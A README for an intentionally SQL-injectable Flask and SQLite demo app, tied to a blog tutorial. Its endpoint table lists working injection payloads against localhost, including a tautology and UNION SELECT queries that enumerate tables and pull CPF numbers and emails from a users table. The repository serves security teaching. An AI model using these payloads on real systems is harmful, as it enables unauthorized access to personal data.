 # Flask Vulnerable to SQL Injection 💉🔓

[![Code style: black](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black)
[![try/except style: tryceratops](https://img.shields.io/badge/try%2Fexcept%20style-tryceratops%20%F0%9F%A6%96%E2%9C%A8-black)](https://github.com/guilatrova/tryceratops)
[![Open in Visual Studio Code](https://open.vscode.dev/badges/open-in-vscode.svg)](https://open.vscode.dev/guilatrova/flask-sqlinjection-vulnerable)

---

The purpose of this repository is to allow us to explore an API vulnerable to SQL Injection (using Python, Flask, and SQLite).

You're free to play with it as is, but you might have more fun doing it alongside me in a blog post: https://blog.guilatrova.dev/how-sql-injection-attack-works-with-examples/.

[![Open in Gitpod](https://gitpod.io/button/open-in-gitpod.svg)](https://gitpod.io/#https://github.com/informatiquecsud/flask-sqlinjection-vulnerable/)

You can play with the following endpoints (considering you're running on localhost):

| Endpoint                                                                                                                                                                                                                                                                                                                      | Description                                      |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------ |
| [/challenges/111.111.111-11](http://localhost:5000/challenges/111.111.111-11)                                                                                                                                                                                                                                                 | Expected usage                                   |
| [/challenges/' or '1' = '1](http://localhost:5000/challenges/'%20or%20'1'%20=%20'1)                                                                                                                                                                                                                                           | Vulnerability proof                              |
| [/challenges/' AND '1' = '2' UNION SELECT name FROM sqlite_master WHERE type ='table' AND name NOT LIKE 'sqlite_%](http://localhost:5000/challenges/'%20AND%20'1'%20=%20'2'%20UNION%20SELECT%20name%20FROM%20sqlite_master%20WHERE%20type%20='table'%20AND%20name%20NOT%20LIKE%20'sqlite_%)                                   | Breaks server                                    |
| [/challenges/' AND '1' = '2' UNION SELECT 'table_name', name FROM sqlite_master WHERE type = 'table' AND name NOT LIKE 'sqlite_%](http://localhost:5000/challenges/'%20AND%20'1'%20=%20'2'%20UNION%20SELECT%20'table_name',%20name%20FROM%20sqlite_master%20WHERE%20type%20=%20'table'%20AND%20name%20NOT%20LIKE%20'sqlite_%) | Queries all tables and fixes broken server       |
| [/challenges/' AND '1' = '2' UNION SELECT cpf, email FROM users; --](http://localhost:5000/challenges/'%20AND%20'1'%20=%20'2'%20UNION%20SELECT%20cpf,%20email%20FROM%20users;%20--)                                                                                                                                           | Use union select to query data from other tables |
